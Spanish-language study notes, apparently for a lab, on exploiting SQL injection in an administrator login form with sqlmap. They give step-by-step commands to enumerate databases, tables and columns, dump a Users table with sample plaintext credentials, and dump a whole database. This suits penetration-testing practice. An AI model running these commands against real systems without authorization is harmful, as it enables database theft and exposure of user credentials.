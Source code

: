 Herramienta,  que nos permite de forma automatizada realizar una explotación de esta vulnerabilidad y poder acceder a las tablas, columnas y registros de la base de datos objetivo.

Uso para panel de administrador

extraer las bases de datos

```sh fold:"SQLMap descubrir bases de datos"
sqlmap -u http://192.168.1.141/administrator/ --forms --dbs --batch
```
ejemplo de salida:
[*] information_schema                                                                                                  
[*] mysql
[*] performance_schema
[*] Webapp


ahora vamos a conocer las tablas de la base de datos Webapp
```sh fold:"SQLMap descubrir tablas de una BD"
sqlmap -u http://192.168.1.141/administrator/ --forms -D {DB_Name} --tables --batch
```


Ejemplo de salida:
Database: Webapp                                                                                                                                   
[1 table]                                                                                                                                          
+-------+                                                                                                                                          
| Users |
+-------+


Ahora vamos a  sacar las columnas de la tabla Users
```sh fold:"SQLMap descubrir columnas de una tabla"
sqlmap -u http://192.168.1.141/administrator/ --forms -D {DB_Name} -T {Table_name} --columns --batch
```

Ejemplo de salida:
[3 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int(6)      |
| password | varchar(32) |
| username | varchar(32) |
+----------+-------------+



Ahora vamos a sacar los registros de las columnas

```sh fold:"SQLMap descubrir registros de una tabla"
sqlmap -u http://192.168.1.141/administrator/ --forms -D {DB_Name} -T {Table_name} -C {column1,column1,column3} --dump --batch
```

ejemplo de salida:
Database: Webapp
Table: Users
[4 entries]
+----------+--------------+
| username | password     |
+----------+--------------+
| bart     | b4rtp0w4     |
| liam     | liam@nd3rs0n |
| mike     | mikeblabla   |
| peter    | peter123!    |
+----------+--------------+


## Dump con sqlmap

recomendado solo si la BD es pequeña
```sh fold:"Haacer un DUMP de una BD con SQL MAP"
sqlmap -u http://192.168.1.141/administrator/ --forms --dump --batch
```




https://www.youtube.com/watch?v=pF7uz_ptuFc

<iframe width="560" height="315" src="https://www.youtube.com/embed/pF7uz_ptuFc?si=6uzvXvY5-_lbZuaL" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>




https://www.youtube.com/shorts/MQLrXU3KzxU